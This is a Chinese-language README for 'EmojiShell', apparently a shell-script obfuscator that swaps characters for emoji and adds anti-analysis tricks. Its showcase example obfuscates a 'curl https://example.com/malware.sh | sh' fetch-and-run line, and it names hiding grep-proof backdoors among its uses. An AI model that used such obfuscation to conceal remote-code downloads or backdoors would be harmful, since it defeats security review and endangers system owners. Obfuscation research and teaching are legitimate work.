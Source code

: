 🌟 EmojiShell | 用表情包守护你的 Shell 脚本

项目定位：

一个专注于 Emoji 混淆技术 的 Shell 脚本安全工具库，通过将敏感代码转换为颜文字、符号组合和动态字体，实现 视觉迷惑 与 逆向防御 的平衡。

🔑 核心功能

1. Emoji 代码伪装
   - 将 
"rm -rf" 转换为 
"✂️➡️🚫📁"，混淆关键指令
   - 支持自定义 Emoji 映射表（如 
"🐚=echo", 
"😈=sudo"）
2. 动态混淆引擎
   - 基于 Shell 的运行时语法代码加密（每次执行自动变换 Emoji 形式）
   - 结合 多种混合加密的 Emoji 编码方案
3. 反调试陷阱
   - 通过 
"$RANDOM" 生成伪随机 Emoji 流干扰静态分析
4. Shell 加壳工具
   - 一键生成混淆后的 
".sh" 二进制文件（兼容 Linux/macOS）
   - 支持自定义 Shell 解释器内容

🎯 技术亮点

- 立即部署：
“使用 Shell 来加密 Shell”
- 视觉欺骗设计：
EmojiCode

# 原始命令
curl https://example.com/malware.sh | sh

# EmojiShell 版本
c$(🐚)1$(☕)2$(🌐) b$(📡)$(🔍)$(🚪)$(💻) | $(💻)
- 可扩展性：
   - 兼容 
"zsh"/
"ash" 等非标准 Shell 环境

🚀 快速上手

# 安装依赖
git clone https://github.com/haothtrteen/EmojiShell.git
cd EmojiShell && chmod +x install.sh

# 混淆示例
echo "whoami" | ./emoji-obfuscator --level hard
# 输出：$(📡)$(🔍)$(🚪)$(💻)

# 生成全加密脚本
修改 EmojiCode.sh 文件中指定的加密文件路径
`text="example.sh" #原脚本绝对路径`
将 example.sh 替换为你要加密的shell文件路径后执行加密脚本即可

🛡️ 应用场景

- 敏感脚本保护：运维脚本、自动化渗透测试工具
- 代码混淆教学：逆向工程实验、CTF 题目设计
- 沙雕开发：用 Emoji 写出无法被 grep 搜索到的隐藏后门 😈

📜 许可证

- MIT License（开源自由，但禁止用于非法活动）
- 商业授权：企业级定制化混淆规则需联系 
"2557976190@qq.com"

🤝 参与贡献

1. Fork 仓库并提交 PR（如新增 Emoji 编码规则）
2. 报告漏洞至 Issues（标注 
"[Security]" 标签）
3. 在 Twitter 带话题 
"#EmojiShell" 分享你的混淆成果 🚀

最后更新：2025-09-10

项目愿景：让 Shell 脚本成为逆向工程师的噩梦 🧟♂️💻

设计思路

1.  Shell语法
2. 尝试通过emoji来代替函数变量
3. 编写自动化加密工具


# 目前仍存在的bug以及需要更新的功能

- 在执行复杂命令或语法时会无法运行，正在尝试修复（暂时尝试使用跳过关键指令加密来修复）
- 在ash（Android系统终端环境）中运行并不是特别理想在尝试优化
- 目前只支持对“0~9,a~z”所有的数字及英文字母进行加密，对特殊字符语言的加密需要更新
